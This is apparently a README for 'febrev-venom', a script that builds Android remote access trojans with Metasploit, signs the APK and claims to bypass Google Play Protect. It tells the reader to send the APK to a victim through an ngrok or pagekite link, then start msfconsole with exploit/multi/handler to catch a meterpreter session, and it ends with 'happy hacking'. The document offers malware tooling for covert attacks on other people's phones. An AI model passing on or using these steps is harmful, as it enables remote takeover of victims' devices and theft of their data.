 # febrev-venom
FEBREV venom is a tool to create android RATs through metasploit , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
CAN BYPASS GOOGLE PLAY PROTECT.............


*must run as root
*must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   
   **come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 **use the ngrok link + /<your_apk.apk> or pagekite link + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
